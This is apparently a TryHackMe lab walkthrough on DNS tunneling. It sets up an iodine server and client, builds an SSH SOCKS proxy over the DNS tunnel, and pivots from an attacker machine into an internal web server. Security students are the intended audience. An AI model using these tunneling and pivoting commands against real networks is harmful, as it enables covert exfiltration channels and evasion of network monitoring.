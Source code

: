 This task will show how to create a tunnel through the DNS protocol. Ensure that you understand the concept discussed in the previous task (Exifltration over DNS), as DNS Tunneling tools work based on the same technique.

DNS Tunneling (TCPoverDNS)  

This technique is also known as TCP over DNS, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS Tunneling establishes a communication channel where data is sent and received continuously.

![DNS Tunneling - Data Flow](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/8176731af9ec61cf248cdbc65df92172.png)  

This section will go through the steps required to establish a communication channel over the DNS. We will apply the technique to the network infrastructure we provided (**JumpBox** and **Victim2**) to pivot from Network 2 (192.168.0.0/24) to Network 1 (172.20.0.0/24) and access the internal web server. For more information about the network infrastructure, please check task 2.

We will be using the [iodine](https://github.com/yarrick/iodine) tool for creating our DNS tunneling communications. Note that we have already installed [iodine](https://github.com/yarrick/iodine) on the JumpBox and Attacker machines. To establish DNS tunneling, we need to follow the following steps:

1.  Ensure to update the DNS records and create new NS points to your AttackBox machine (Check Task 8), or you can use the preconfigured nameserver, which points to the Attacker machine (att.tunnel.com=172.20.0.200).
2.  Run **iodined** server from AttackBox or the Attacker machine. (note for the **server** side we use iodine**d**)
3.  On JumpBox, run the iodine client to establish the connection. (note for the client side we use iodine - without **d)**
4.  SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding.
5.  Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains.

Let's follow the steps to create a DNS tunnel. First, let's run the server-side application (iodined) as follows,

Running iodined Server  

```
thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com                                                                                                                                                                      Opened dns0 Setting IP of dns0 to 10.1.1.1 Setting MTU of dns0 to 1130 Opened IPv4 UDP socket Listening to dns for domain att.tunnel.com
```
	    

Let's explain the previous command a bit more:

-   Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
-   The -f argument is to run the server in the foreground.
-   The -c argument is to skip checking the client IP address and port for each DNS request.
-   The -P argument is to set a password for authentication.
-    The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
-   att.tunnel.com is the nameserver we previously set.

video_tryhackme


On the JumpBox machine, we need to connect to the server-side application. To do so, we need to execute the following:

Victim Connects to the Server  

video_tryhackme

   

Note that we executed the client-side tool (iodine) and provided the -f and -P arguments explained before. Once the connection is established, we open a new terminal and log in to 10.1.1.1 via SSH.




Note that all communication over the network 10.1.1.1/24 will be over the DNS. We will be using the -D argument for the dynamic port forwarding feature to use the SSH session as a proxy. Note that we used the -f argument to enforce ssh to go to the background. The -4 argument forces the ssh client to bind on IPv4 only. 

SSH over DNS  

           
```
root@attacker$ ssh thm@10.1.1.2 -4 -f -N -D 1080
```

Now that we have connected to JumpBox over the dns0 network, open a new terminal and use ProxyChains or Firefox with 127.0.0.1 and port 1080 as proxy settings. 

Use SSH Connection as a Proxy  

```
root@attacker$ proxychains curl http://192.168.0.100/demo.php root@attacker$ #OR root@attacker$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
```
   

00:00

We can confirm that all traffic goes through the DNS protocol by checking the Tcpdump on the **Attacker** machine through the **eth0** interface.

![Capturing DNS traffic](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/ffbd2ecb2563c649fde174b40c450097.png)  

Apply the DNS tunneling technique in the provided network environment and access http://192.168.0.100/test.php to answer the question below.
